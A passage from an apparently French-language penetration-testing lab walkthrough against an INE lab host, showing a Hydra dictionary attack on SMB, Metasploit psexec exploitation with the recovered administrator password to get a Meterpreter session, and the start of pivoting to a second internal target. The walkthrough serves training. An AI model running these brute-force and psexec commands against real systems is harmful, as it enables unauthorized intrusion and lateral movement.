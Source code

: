 #### Bruteforce avec Hydra
```bash
# Attaque par dictionnaire sur le service SMB
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb
```

**Résultats typiques :**
- Découverte de credentials valides pour `administrator`
- Mot de passe faible identifié

### Phase 5 : Exploitation avec PsExec

#### Lancement de Metasploit
```bash
# Démarrage du framework Metasploit
msfconsole -q
```

#### Configuration du module PsExec
```bash
# Utilisation du module d'exécution de code authentifié
use exploit/windows/smb/psexec
set RHOSTS demo.ine.local
set SMBUser administrator
set SMBPass password1  # Mot de passe découvert
exploit
```

**Concept - PsExec :**
- Module similaire à l'utilitaire SysInternals PsExec
- Utilise des credentials d'administrateur valides
- Crée un service avec nom et description aléatoires
- Permet l'exécution de code arbitraire
- Nettoyage automatique après exploitation

**Résultat :** Obtention d'une session Meterpreter sur la première cible

### Phase 6 : Découverte de la Seconde Cible

#### Test de connectivité depuis la cible compromise
```bash
# Passage en shell système
shell
# Test de ping vers la seconde cible
ping 10.0.28.125
```

**Observation importante :**
- La cible 2 (10.0.28.125) est accessible depuis la cible 1
- La cible 2 N'EST PAS accessible directement depuis Kali
- Nécessité de mettre en place du pivoting

### Phase 7 : Configuration du Pivoting
